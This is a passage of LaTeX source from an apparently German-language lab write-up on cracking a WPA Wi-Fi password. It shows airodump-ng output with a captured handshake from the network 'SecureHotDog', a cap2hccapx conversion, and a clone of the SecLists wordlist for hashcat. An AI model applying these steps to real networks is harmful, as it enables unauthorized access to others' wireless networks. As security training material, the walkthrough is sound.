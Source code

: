 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
\begin{lstlisting}
  CH  1 ][ Elapsed: 7 mins ][ 2018-11-23 15:05 ][ WPA handshake: 00:18:39:BF:D7:66

  BSSID		    PWR RXQ  Beacons	#Data, #/s  CH	MB   ENC  CIPHER AUTH ESSID
 
  02:18:39:BF:D7:67  -32  50	4319	  830	 0   1	54   OPN	      HotDog
  00:18:39:BF:D7:66  -32  54	4320	  359	 0   1	54   WPA  TKIP	 PSK  SecureHotDog
 
  BSSID		    STATION	       PWR   Rate    Lost    Frames  Probe
 
  02:18:39:BF:D7:67  74:DA:38:F0:40:C2  -29    1 -24	 0	482
  02:18:39:BF:D7:67  74:DA:38:F0:41:1C  -33    1 -24	 0	344
  02:18:39:BF:D7:67  80:1F:02:AB:A9:9C  -43    1 -24	 0	281
  02:18:39:BF:D7:67  80:1F:02:AB:A9:9B  -45    1 -24	 0	228
  00:18:39:BF:D7:66  80:1F:02:AB:A9:9E  -40    1 -24	 0	392
  00:18:39:BF:D7:66  80:1F:02:AB:A9:86  -43   54 -24	 0	256
\end{lstlisting}

Mit den Handshake den ich in der \lstinline{.cap} Datei habe, kann ich mit \href{https://hashcat.net/hashcat/}{hashcat} und einer passenden wordlist das Passwort das in dem Handshake vermittelt worden ist herausfinden.

Zuerst musste ich die \lstinline{.cap} Datei in eine, für hashcat, nutzbare Datei \lstinline{.hccapx} konvertieren. Dazu verwende ich \lstinline{cap2hccapx.exe} von den \href{https://github.com/hashcat/hashcat-utils/releases}{hashcat-utils}.

\begin{lstlisting}
PS C:\Users\hurbe\Desktop\hashcat-utils-1.9\bin> .\cap2hccapx.exe .\SecureHo
tDogHandshake.cap SecureHotDogHandshake.hccapx
Networks detected: 2

[*] BSSID=00:18:39:bf:d7:66 ESSID=SecureHotDog (Length: 12)
  --> STA=80:1f:02:ab:a9:9e, Message Pair=0, Replay Counter=5
  --> STA=80:1f:02:ab:a9:9e, Message Pair=2, Replay Counter=5
[*] BSSID=02:18:39:bf:d7:67 ESSID=HotDog (Length: 6)

Written 2 WPA Handshakes to: SecureHotDogHandshake.hccapx 
\end{lstlisting}

Ich habe dann verschiedene Wordlists probiert, habe es dann mit der \href{https://github.com/danielmiessler/SecLists}{SecLists} Wordlist geschafft.

\begin{lstlisting}
PS C:\Users\hurbe\Desktop\hashcat-5.0.0> git clone git@github.com:danielmiessler/SecLists.git
Cloning into 'SecLists'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 7432 (delta 9), reused 13 (delta 5), pack-reused 7408
Receiving objects: 100% (7432/7432), 497.36 MiB | 10.93 MiB/s, done.
Resolving deltas: 100% (3610/3610), done.
Checking out files: 100% (5219/5219), done.
\end{lstlisting}
\end{document}
